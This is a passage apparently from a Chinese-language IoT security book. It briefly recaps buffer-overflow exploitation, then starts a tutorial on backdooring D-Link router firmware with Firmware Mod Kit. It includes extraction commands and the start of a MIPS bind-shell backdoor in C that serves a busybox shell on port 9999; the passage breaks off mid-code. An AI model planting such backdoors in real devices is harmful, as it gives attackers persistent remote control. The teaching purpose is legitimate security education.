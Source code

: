 缓冲区溢出的整个基本概念是能够在缓冲区中放入比预期输入更多的字符，并以这种方式控制堆栈上可能存在的寄存器。这也可用于跳转到外壳代码的位置或系统的`libc`库并执行额外的有效载荷。

# 还有更多。。。

尽管我们可以在这种易受攻击的二进制文件中执行攻击，但通常在现实情况下，您会遇到更复杂的场景。其中一个事实是，要跳转到的有趣函数不会位于二进制文件中，您必须跳转到系统以执行`bin/sh`或创建 ROP 链以执行外壳代码。

# 带固件模块套件（FMK）的后门固件

在攻击过程中经常有用的技术之一是修改固件的能力。这可以通过从固件中提取文件系统、修改内容，然后将其重新打包到新固件中来实现。然后可以将此新固件闪存到设备。

# 准备

为了修改固件，我们将使用由*Jeremy Collake*和*Craig Heffner*编写的名为 FMK 的工具。FMK 利用 Binwalk 和其他工具从固件中提取文件系统，还使我们能够将修改后的文件系统重新打包为新的固件二进制文件。

FMK 可从[下载 https://github.com/brianpow/firmware-mod-kit/](https://github.com/brianpow/firmware-mod-kit/) 或者，如果您早些时候克隆了 FAT 工具，它可能已经存在于您的系统中。一旦你下载了它，我们需要固件，我们可以尝试它。为了使事情保持简单，使每一个阅读本书的人都可以复制以下步骤，而无需投资购买硬件，我们将使用固件，可以很好地使用 FAT 进行模拟。

# 怎么做。。。

以下是步骤：

1.  我们将在本例中使用的固件是 D-Link（DIR-300 路由器）的固件。为了从固件中提取文件系统，我们将使用位于 FMK 目录中的`extract-firmware.sh`脚本，而不是使用 Binwalk，如下所示：

```
./extract-firmware.sh Dlink_firmware.bin  
```

![](Images/8ce54461-9a12-4f50-81c5-5b12f5bddde9.png)

一旦我们提取了固件，它将为我们包含一个新的目录，包括文件夹`rootfs`、`image_parts`和`logs`。对于我们的大多数后门和固件修改目的，我们将只关注`rootfs`文件夹。

`rootfs`文件夹包含固件的整个文件系统。我们需要做的就是为固件的体系结构创建一个后门，然后找到一种在固件启动后自动调用它的方法。

2.  让我们首先了解固件适用于哪个体系结构。我们可以通过对任何固件二进制文件（如 BusyBox）执行`readelf`来发现这一点，如以下屏幕截图所示：

![](Images/0cecc090-c60e-40b6-bb9e-82196ef4834e.png)

3.  从前面的屏幕截图可以看出，它是一个基于 MIPS 的 Little Endian 架构。这意味着我们需要为 MIPS Little Endian 格式创建和编译一个后门。以下是我们将要使用的后门，最初由*Osanda Malith*撰写：

```
#include <stdio.h> 
#include <stdlib.h> 
#include <string.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

#define SERVER_PORT  9999 
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith) 
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox 
  * Arch : MIPS 
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc 
  */ 
int main() { 
   int serverfd, clientfd, server_pid, i = 0; 
   char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n"; 
   char *args[] = { "/bin/busybox", "sh", (char *) 0 }; 
   struct sockaddr_in server, client; 
   socklen_t len; 

```